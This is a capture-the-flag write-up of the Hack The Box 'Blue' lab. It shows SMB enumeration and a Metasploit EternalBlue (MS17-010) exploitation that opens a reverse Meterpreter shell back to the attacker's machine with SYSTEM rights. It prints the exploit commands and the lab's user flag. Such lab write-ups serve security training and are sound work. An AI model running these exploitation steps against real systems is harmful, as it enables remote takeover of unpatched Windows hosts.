






# Hack The Box — Blue CTF Write-up

This report documents my assessment of the Blue machine on Hack The Box. It covers service enumeration, SMB inspection, exploitation of MS17-010 using EternalBlue, verification of SYSTEM privileges, and flag discovery.

The report is based on the six screenshots included in this repository. The evidence confirms a Meterpreter session running as `NT AUTHORITY\SYSTEM`, successful retrieval of the user flag, and discovery of `root.txt`. The contents of the root flag are not shown in the supplied screenshots.

## Target Environment

| Item | Details |
| --- | --- |
| Platform | Hack The Box |
| Machine | Blue |
| Target IP address | `10.129.43.97` |
| Attacking machine IP address | `10.10.14.7` |
| Target hostname | `haris-PC` |
| Operating system | Windows 7 Professional 7601 Service Pack 1 |
| Architecture | x64 |
| Tools used | Nmap, NetExec, Metasploit Framework, Meterpreter |

## 1. Service Enumeration

I began by reviewing the Nmap scan results to identify exposed services and determine the target's operating system. The displayed results showed the following open TCP ports:

| Port | Service | Identification |
| --- | --- | --- |
| 135 | MSRPC | Microsoft Windows RPC |
| 139 | NetBIOS-SSN | Microsoft Windows NetBIOS |
| 445 | Microsoft-DS / SMB | Windows 7 Professional SP1 |
| 49152–49157 | MSRPC | Microsoft Windows RPC |

The scan output listed nine open TCP ports. Excluding the five-digit ports, there were three: `135`, `139`, and `445`.

Nmap identified the computer name as `haris-PC`, the NetBIOS name as `HARIS-PC`, and the workgroup as `WORKGROUP`. The SMB script results reported signing as disabled in the SMB security mode output and enabled but not required in the SMB2 security mode output.

The exposed SMB service and identified Windows version provided a useful starting point for further investigation. The exact Nmap command is outside the visible screenshot, so its options are not reproduced here.



*Figure 1. Nmap service enumeration and SMB host discovery results.*

## 2. SMB Enumeration

I used NetExec to inspect the SMB service:

```bash
nxc smb 10.129.43.97
```

The output identified Windows 7 Professional SP1 x64 and reported the following properties:

```text
name: HARIS-PC
signing: False
SMBv1: True
Null Auth: True
```

This established that SMBv1 was enabled and that NetExec reported null authentication support. These observations guided the vulnerability investigation, but did not independently prove that MS17-010 was exploitable.



*Figure 2. SMB enumeration using NetExec.*

## 3. Vulnerability Identification

I searched Metasploit for exploit modules associated with MS17-010:

```text
search exploit MS17-010
```

The search returned several matching modules. I selected the EternalBlue module:

```text
use exploit/windows/smb/ms17_010_eternalblue
```

The search output described this module as an SMB remote Windows kernel pool corruption exploit and listed Windows 7 among its supported targets.



*Figure 3. Identification and selection of the EternalBlue exploit module.*

## 4. Exploitation

I configured the target and reverse connection settings, then ran the module's vulnerability check:

```text
set RHOSTS 10.129.43.97
set LHOST 10.10.14.7
set LPORT 443
check
```

| Setting | Purpose |
| --- | --- |
| `RHOSTS` | Target machine address |
| `LHOST` | Attacking machine address for the reverse connection |
| `LPORT` | Listening port for the reverse connection |

The check reported:

```text
Host is likely VULNERABLE to MS17-010!
The target is vulnerable.
```

I then executed the module:

```text
run
```

Metasploit started a reverse TCP handler on `10.10.14.7:443`, connected to the target's SMB service, and performed the EternalBlue exploitation sequence. The output reported a successful overwrite and opened Meterpreter session 1.

This session demonstrated successful remote code execution on the target. The specific payload selection is not visible in the supplied screenshots.



*Figure 4. Exploit configuration, vulnerability validation, and successful session creation.*

## 5. Privilege Verification

After obtaining the Meterpreter session, I checked its security context:

```text
getuid
```

The command returned:

```text
Server username: NT AUTHORITY\SYSTEM
```

I opened a Windows command shell from Meterpreter:

```text
shell
```

I then verified the current identity from the Windows shell:

```cmd
whoami
```

The result was:

```text
nt authority\system
```

Both checks confirmed SYSTEM privileges. The exploit had already provided this access level, so a separate privilege escalation step was unnecessary.



*Figure 5. Verification of the session's SYSTEM security context.*

## 6. Flag Discovery

### User Flag

Some initial navigation commands failed because they referenced incorrect paths. I subsequently reached the user profile at `C:\Users\haris` and navigated to its desktop:

```cmd
cd Desktop
dir
```

The directory listing showed `user.txt`. After correcting an initial typing error from `tyoe` to `type`, I read the file:

```cmd
type user.txt
```

The user flag displayed in the screenshot was:

```text
613bec8346d497086313ade3e5e386a6
```

The flag was located at:

```text
C:\Users\haris\Desktop\user.txt
```

### Root Flag File

I then navigated to the Administrator's desktop and listed its contents:

```cmd
cd C:\Users\Administrator\Desktop
dir
```

The listing confirmed the presence of:

```text
C:\Users\Administrator\Desktop\root.txt
```

The supplied screenshot does not show `root.txt` being read. Therefore, this report records discovery of the root flag file without claiming that its contents were retrieved or submitted.



*Figure 6. Successful user flag retrieval and discovery of the root flag file.*

## 7. Results

| Objective | Evidence-based result |
| --- | --- |
| Identify exposed services | Completed |
| Identify hostname and operating system | Completed |
| Check for MS17-010 | Vulnerability reported by Metasploit |
| Establish remote access | Meterpreter session opened |
| Verify SYSTEM privileges | Confirmed by `getuid` and `whoami` |
| Retrieve the user flag | Completed |
| Locate the root flag file | Completed |
| Retrieve the root flag contents | Not shown in the screenshots |

The assessment demonstrated a successful path from service enumeration to SYSTEM-level access. It reinforced the value of validating a suspected vulnerability before exploitation, checking the session's privileges immediately after access, and using accurate filesystem paths during flag discovery.

The documented outcome is SYSTEM access, successful user flag retrieval, and discovery of the root flag file.

## Repository Contents

```text
htb-blue-writeup/
├── README.md
└── screenshots/
    ├── 01-nmap-enumeration.png
    ├── 02-netexec-smb-enumeration.png
    ├── 03-metasploit-module-selection.png
    ├── 04-eternalblue-exploitation.png
    ├── 05-system-privilege-verification.png
    └── 06-flag-discovery.png
```

All screenshots are the original supplied images. Image links use relative paths so that they render on GitHub when `README.md` and the `screenshots` folder are uploaded together.
